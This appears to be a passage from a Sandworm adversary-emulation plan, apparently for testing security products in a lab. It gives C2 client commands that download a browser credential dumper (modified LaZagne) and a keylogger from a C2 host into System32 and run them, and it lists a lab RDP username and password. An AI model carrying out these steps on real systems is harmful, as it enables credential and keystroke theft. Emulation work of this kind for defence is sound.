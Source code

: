 mslog.exe is a keylogger that uses the SetWindowsHookEx function; mslog.exe writes a keystroke log file to C:\Windows\System32\mslog.txt.

Sandworm obtains web browser credentials via oradump.exe.

Sandworm obtains domain admin credentials by keylogging an RDP session from a valid user.

Sandworm then gets a list of all domain hosts using dsquery.

### :biohazard: Procedures

Upload the webCredDumper to gammu over Exaramel-Windows C2 channel (HTTPS / 192.168.0.4:443):

```bash
./evalsC2client.py --set-task Exaramel-Windows "get-file https://192.168.0.4/getFile/dumpWebBrowserCreds.exe C:\\Windows\\System32\\oradump.exe"
```

Execute the webCredDumper; you should see credentials from Chromium.

```bash
# Sandworm Team's CredRaptor tool can collect saved passwords from various internet browsers.

./evalsC2client.py --set-task Exaramel-Windows "exec-cmd C:\\Windows\\System32\\oradump.exe"
```

:warning: oradump (LaZagne) can take several minutes to finish executing. Give it 5 minutes... if it hasn't returned by then, the vendor product probably broke it.

[Modified LaZagne](../../Resources/browser-creds/Windows)

Upload keylogger to gammu.

```bash
./evalsC2client.py --set-task Exaramel-Windows "get-file https://192.168.0.4/getFile/keylogger.exe C:\\Windows\\System32\\mslog.exe"
```

Execute the keylogger, logging keystrokes to mslog.txt.

```bash
# Sandworm Team has used a keylogger to capture keystrokes by using the SetWindowsHookEx function.

./evalsC2client.py --set-task Exaramel-Windows "exec-background C:\\Windows\\System32\\mslog.exe -o C:\\Windows\\System32\\mslog.txt"
```

[Keylogger Source Code](../../Resources/keylogger/src/SetWindowsHookEx-Keylogger.cpp)

Now we will exercise the keylogger.

:warning: Switch to the gammu-RDP-session window. 

Open the Windows RDP client on Gammu and *manually* type the following:

```
IP Address:  10.0.1.4
Username:    patreides
Password:    ebqMB7DmM81QVUqpf7XI
```
